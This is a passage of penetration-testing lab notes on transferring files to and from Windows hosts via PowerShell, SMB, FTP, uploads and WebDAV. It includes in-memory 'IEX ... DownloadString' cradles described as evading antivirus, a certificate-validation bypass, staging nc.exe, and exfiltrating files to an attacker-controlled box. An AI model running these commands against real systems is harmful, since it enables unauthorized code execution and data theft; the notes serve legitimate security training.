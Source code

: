             - Command: `IEX (New-Object Net.WebClient).DownloadString('https://<URL>')`.
            - Use: Executes scripts in memory, avoiding disk writes (useful against AV).
        - **Invoke-WebRequest**:
            - Command: `Invoke-WebRequest https://<URL> -OutFile C:\\htb\\file.exe`.
            - Aliases: `iwr`, `curl`, `wget`.
            - Note: Slower than `Net.WebClient`.
    - **Bypasses**:
        - **IE First-Launch Error**: Add `UseBasicParsing` (e.g., `Invoke-WebRequest <URL> -UseBasicParsing | IEX`).
        - **SSL/TLS Error**: Bypass untrusted certificates with `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`.
    - **Pitfalls**:
        - Web filtering may block specific domains or file types (e.g., `.exe`).
        - Proxy-unaware methods may fail in corporate environments.
    - **Tip**: Check Harmjoy’s PowerShell download cradles for situational variations.
3. **SMB Downloads**
    - **Context**: SMB (TCP/445) is common in Windows enterprise networks for file sharing.
    - **Setup (Pwnbox)**: `sudo impacket-smbserver share -smb2support /tmp/smbshare`.
    - **Download (Windows)**: `copy \\\\<Pwnbox-IP>\\share\\nc.exe C:\\htb\\`.
    - **Authentication**:
        - If guest access is blocked: `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -p test`.
        - Mount: `net use n: \\\\<IP>\\share /user:test test`, then `copy n:\\nc.exe`.
    - **Advantages**: Fast, leverages native Windows functionality.
    - **Pitfalls**: Newer Windows versions block unauthenticated access; outbound SMB may be restricted.
    - **Tip**: Use with caution—SMB traffic is often monitored.
4. **FTP Downloads**
    - **Setup (Pwnbox)**: `sudo pip3 install pyftpdlib; sudo python3 -m pyftpdlib --port 21`.
    - **Methods**:
        - **PowerShell**: `(New-Object Net.WebClient).DownloadFile('ftp://<IP>/file.txt', 'C:\\htb\\file.txt')`.
        - **FTP Client (Non-Interactive)**:
            - Create `ftpcommand.txt`:
                
                ```
                open <IP>
                USER anonymous
                binary
                GET file.txt
                bye
                
                ```
                
            - Run: `ftp -v -n -s:ftpcommand.txt`.
    - **Advantages**: Simple setup, anonymous access by default.
    - **Pitfalls**: FTP (TCP/21) often blocked; lacks encryption unless FTPS is used.
    - **Tip**: Use for quick transfers in permissive networks.
5. **Uploads**
    - **Base64**:
        - Encode: `[Convert]::ToBase64String((Get-Content -Path "C:\\Windows\\system32\\drivers\\etc\\hosts" -Raw))`.
        - Decode on Pwnbox: `echo "<base64>" | base64 -d > hosts`.
    - **Web**:
        - Setup: `pip3 install uploadserver; python3 -m uploadserver` (Pwnbox, port 8000).
        - Upload: `Invoke-FileUpload -Uri http://<IP>:8000/upload -File C:\\htb\\file.txt` (requires PSUpload.ps1 script).
    - **FTP**: Use `PUT` in `ftpcommand.txt` (e.g., `PUT C:\\htb\\file.txt`).
    - **Tip**: Verify with hashes (e.g., `Get-FileHash` vs. `md5sum`).
6. **WebDAV (SMB over HTTP)**
    - **Setup (Pwnbox)**: `sudo pip3 install wsgidav cheroot; sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`.
    - **Access (Windows)**: `dir \\\\<IP>\\DavWWWRoot`, `copy C:\\htb\\file.txt \\\\<IP>\\DavWWWRoot\\`.
    - **Advantages**: Bypasses SMB restrictions by using HTTP (TCP/80).